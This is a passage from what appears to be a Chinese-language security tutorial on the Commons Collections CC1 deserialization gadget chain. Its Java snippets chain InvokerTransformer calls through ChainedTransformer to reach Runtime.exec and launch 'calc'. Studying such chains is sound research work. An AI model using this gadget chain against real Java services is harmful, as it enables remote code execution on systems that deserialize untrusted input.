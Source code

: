 接着，我们将这个反射的 `Runtime` 改造为使用 `InvokerTransformer` 调用的方式。因为最终是要执行`transform`这个方法

具体写法可以写的时候看一下源码，就能理解参数内容了

```java
        Method getRuntimeMethod = (Method)  new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", null}).transform(Runtime.class);
        Runtime r = (Runtime) new InvokerTransformer("invoke",new Class[]{Object.class,Object[].class},new Object[]{null,null}).transform(getRuntimeMethod);
        new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"calc"}).transform(r);

```

有个`ChainedTransformer`类，可以传入`Transformer`数组，然后循环将`Transform`数组中的内容调用`transform`方法

![image-20250923162200744](./Commons-Collections篇01-CC1链/image-20250923162200744.png)

所以代码可以简化成

```java
 Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                 new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", null}),
                 new InvokerTransformer("invoke",new Class[]{Object.class,Object[].class},new Object[]{null,null}),
                new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"calc"})
        };
         ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);
         chainedTransformer.transform(Runtime.class);
```
